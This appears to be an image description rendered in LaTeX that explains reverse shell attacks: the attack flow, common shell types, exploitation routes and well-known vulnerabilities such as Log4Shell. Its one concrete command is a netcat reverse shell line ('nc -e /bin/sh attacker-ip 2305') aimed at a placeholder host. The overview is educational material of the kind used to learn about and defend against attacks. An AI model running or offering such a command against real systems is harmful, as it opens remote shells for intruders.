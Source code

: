 \begin{itemize}
	\item The image shows a reverse shell attack flow:
    \begin{itemize}
        \tightlist
		\item Attacker starts a listener on port 2305
		\item Exploits vulnerability on target's port 443
		\item Target initiates connection back to attacker
		\item Bi-directional command shell is established
		\item All command results return to attacker's listening port
    \end{itemize}

	\item Common ways to create reverse shells:
    \begin{itemize}
        \tightlist
		\item Netcat reverse shells (`nc -e /bin/sh attacker-ip 2305`)
		\item Python one-liners for socket connections
		\item PowerShell reverse shell scripts
		\item Bash reverse shells
		\item PHP reverse shell scripts
		\item Java/JSP reverse shell code
    \end{itemize}

	\item Typical exploitation methods:
    \begin{itemize}
        \tightlist
		\item Command injection in web applications
		\item SQL injection leading to command execution
		\item Remote code execution vulnerabilities
		\item Malicious file uploads
		\item Social engineering with malicious scripts
		\item Supply chain compromises
    \end{itemize}

	\item Notable vulnerabilities enabling reverse shells:
    \begin{itemize}
        \tightlist
		\item SolarWinds supply chain attack
		\item Log4Shell (CVE-2021-44228)
		\item Spring4Shell (CVE-2022-22965)
		\item Windows Print Spooler (PrintNightmare)
		\item Drupal Drupalgeddon2
		\item Apache Struts2 vulnerabilities
    \end{itemize}


\end{itemize}
